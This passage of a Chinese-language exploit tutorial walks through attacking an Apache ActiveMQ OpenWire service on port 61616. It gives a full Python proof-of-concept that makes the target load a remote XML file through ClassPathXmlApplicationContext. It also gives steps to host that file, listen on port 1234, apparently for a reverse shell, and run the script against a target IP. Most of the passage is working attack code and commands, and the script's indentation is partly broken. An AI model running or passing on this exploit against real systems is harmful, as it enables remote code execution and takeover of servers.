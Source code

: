   
开启一个web服务监听，用来访问下载poc.xml  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5Z8fnbcOiblhicne1rgicP9UdrlaSKhQAKG0amd1w01TwgGrEAicXFj3dUog/640?wx_fmt=png&from=appmsg "")  
  
  
poc.py  
```
import io
import socket
import sys
def main(ip, port, xml):
    classname =   "org.springframework.context.support.ClassPathXmlApplicationContext"
    socket_obj =   socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    socket_obj.connect((ip,   port))
    with socket_obj:
        out =   socket_obj.makefile('wb')
        # out =   io.BytesIO()  # 创建一个内存中的二进制流
          out.write(int(32).to_bytes(4, 'big'))
          out.write(bytes([31]))
          out.write(int(1).to_bytes(4, 'big'))
          out.write(bool(True).to_bytes(1, 'big'))
          out.write(int(1).to_bytes(4, 'big'))
          out.write(bool(True).to_bytes(1, 'big'))
          out.write(bool(True).to_bytes(1, 'big'))
          out.write(len(classname).to_bytes(2, 'big'))
          out.write(classname.encode('utf-8'))
          out.write(bool(True).to_bytes(1, 'big'))
          out.write(len(xml).to_bytes(2, 'big'))
          out.write(xml.encode('utf-8'))
        #   print(list(out.getvalue()))
        out.flush()
        out.close()
if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Please   specify the target and port and poc.xml: python3 poc.py 127.0.0.1 61616   "
                "http://192.168.0.101:8888/poc.xml")
        exit(-1)
    main(sys.argv[1],   int(sys.argv[2]), sys.argv[3])
```  
  
  
监听本机IP端口1234  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZZ3jVtmP1xZzeAM1LwZOJsUGotC60WctNiaAjszmDWjMILHoyEFiciajsQ/640?wx_fmt=png&from=appmsg "")  
  
  
执行poc.py  
```
python poc.py 10.22.250.67 61616 http://10.132.0.76:8888/poc.xml
```  
  
  
10.22.250.67 61616                         
  
为靶机IP和端口  
  